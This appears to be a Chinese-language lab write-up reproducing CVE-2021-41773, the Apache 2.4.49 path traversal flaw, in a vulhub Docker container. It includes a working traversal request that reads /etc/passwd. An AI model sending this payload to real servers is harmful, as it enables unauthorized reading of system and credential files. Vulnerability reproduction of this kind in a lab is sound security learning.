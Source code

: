 # Apache路径穿越漏洞（CVE-2021-41773）

## 漏洞原理

在 Apache HTTP Server 2.4.49 中对路径规范化所做的更改中发现了一个缺陷。攻击者可以使用路径遍历攻击将 URL 映射到预期文档根目录之外的文件。如果文档根目录之外的文件不受“要求全部拒绝”的保护，则这些请求可能会成功。此外，此缺陷可能会泄漏 CGI 脚本等解释文件的来源。已知此问题已被广泛利用。此问题仅影响 Apache 2.4.49 而不是早期版本。


## 影响版本

Apache HTTP Server 2.4.49

## 复现机器版本

攻击机：Ubuntu18.04

靶机：Ubuntu18.04 Docker version 20.10.10

## 漏洞复现

### 准备阶段 

#### 进入靶场，启动服务

```
cd /home/radiuscircle/vulhub/httpd/CVE-2021-41773
docker-compose build
docker-compose up -d
```

![image-20220708192508929](C:\Users\Gundam\AppData\Roaming\Typora\typora-user-images\image-20220708192508929.png)

#### 信息收集

查看端口

```
docker ps
```

![image-20220708192529916](C:\Users\Gundam\AppData\Roaming\Typora\typora-user-images\image-20220708192529916.png)

### 漏洞利用

访问IP：`http://192.168.177.131:8080/`

![image-20220708192807891](C:\Users\Gundam\AppData\Roaming\Typora\typora-user-images\image-20220708192807891.png)

burp抓包

![image-20220708194431950](Apache路径穿越漏洞（CVE-2021-41773）.assets/image-20220708194431950.png)

构造payload

```
GET /icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1
```

![image-20220708193634677](C:\Users\Gundam\AppData\Roaming\Typora\typora-user-images\image-20220708193634677.png)

得到passwd文件内容

### 关闭容器

```
docker-compose down
```

